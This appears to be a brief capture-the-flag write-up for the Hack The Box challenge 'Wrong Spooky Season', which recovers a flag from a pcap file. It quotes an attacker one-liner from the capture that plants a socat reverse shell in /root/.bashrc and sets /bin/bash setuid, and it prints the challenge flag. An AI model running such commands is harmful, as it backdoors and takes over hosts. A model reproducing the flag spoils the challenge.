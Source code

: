 # Wrong Spooky Season

Run strings on the .pcap file

and voila’

`echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`

There is some base64 right? let’s decode it and reverse the text

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

And here is the flag

## `HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}`